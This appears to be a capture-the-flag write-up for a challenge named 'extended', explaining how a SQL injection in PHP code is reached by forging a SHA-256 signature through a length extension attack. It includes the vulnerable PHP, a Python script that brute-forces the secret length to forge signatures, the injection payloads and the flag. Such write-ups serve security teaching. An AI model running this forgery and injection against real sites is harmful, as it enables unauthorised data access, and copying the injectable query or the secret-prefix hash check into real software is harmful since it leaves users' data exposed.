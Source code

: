 # extended
by Halogen
> Seems like an extensive authentication system
## Solution
When we first open the website, we see a Jaga Authentication (predictable as above). 
![extended.png](./assets/extended.png)
With authentication, one usually thinks of SQL injection, and indeed we do see it is SQL injectable in the code base, as shown in the PHP (**BAD** langauage) snippet below. This can be found in `profile.php`
```php
$user = $db->prepare("SELECT * FROM j4g4_us3rs WHERE uid = '$uid'");
```

So now, what is `uid`? Following the code upstream, we see that it is a randomly generated hex string given on registering. And that 0 ensures we are not admin :(
```php
$uid = bin2hex(random_bytes(32));
$user = $db->prepare("INSERT INTO j4g4_us3rs (uid, username, password, role) VALUES (?, ?, ?, 0)");
$user->execute([$uid, $username, md5($password)]);
```

But look, uid is given as a url param when going to `profile.php`, so we can just inject our code there? Well no, that gives us a 404 error
![extended.png](./assets/extended_failed.png)
We need to dig deeper!

In `profile.php` we see this snippet of code
```php
$uri = explode('|', substr($_SERVER["REQUEST_URI"], strpos($_SERVER["REQUEST_URI"], "?") + 1));
$paramstr = urldecode($uri[0]);
$params = parse_url('?' . $paramstr);
parse_str($params['query'], $params);
$sig = $uri[1];

if ($sig !== hash("sha256", $SECRET . $paramstr)) {
	http_response_code(404);
	include('404.php');
	die();
}
```
We see that the `uid` parameter has a signature, such that when `SECRET . paramstr` is hashed using `sha-256`, we get `sig` again. `sig` is passed alongside the `uid` with a delimiter `|`. So the url we need should have the format

`http://localhost:3273/profile.php?uid=<$uid>|<$sig>`

Now we see that we cannot just replace uid with the SQL injection as there is a check with the hidden string `SECRET`. However, we could just extend (woah question name) the uid by appending the SQL injection to it, keeping some parts of the original string and its hash. Would this even work? YES.

## Length Extension Attack
A length extension attack can be done on `sha-256`, the hashing algorithm used to check against `sig`. It is basically crypto magic, and if you want to find out the details you can go [here](https://en.wikipedia.org/wiki/Length_extension_attack).
Here is how it works. 
> **The Attack**
> Using $M$ and $HASH(SECRET . M)$ and the length of $SECRET$.
> We can use get $HASH(SECRET.M.PADDING.E)$. 
> 
> $M$ is the original message, here it is the `uid`
> $SECRET$ is the secret string, which also appears here
> $PADDING$ is just some specific characters to perform the attack.
> $E$ is our message to append, which will be our SQL injection.

Using a [library](https://github.com/stephenbradshaw/hlextend) we found, we can perform the length extension attack and get our SQL injection signed. As for the lenght of $SECRET$, we just brute forced, since it is only from 16 to 32, and found that it works when the length is 28.
<u>Bruteforce Script</u>
```python
import hlextend, requests 

for i in range(16, 33): 
	sha = hlextend.new('sha256')
	print(i, requests.get("http://<site>/profile.php?" +
		sha.extend( "' or role=1--",
		"uid=b526a1e66e5cd6c998510ed8e36bb91ba247c11d2c39f191d25f52126d06e73b", 
		i,
		"953e3e0eb6e871a8c0f5441f11aca4723e3237d2ce5904d3f03915fbc050e99d" 
	) + '|' + sha.hexdigest()).text)
```

Afterwards we inserted our SQL injection (finally) and get our flag.
SQL Injection: `' UNION SELECT flag, flag, flag, flag, flag FROM j4g4_us3rs WHERE role=1--`
![extended_success.png](./assets/extended_success.png)
Flag: `STF22{h4sh_l3ngth_1nj3ct10n_1s_4w3s0m3}`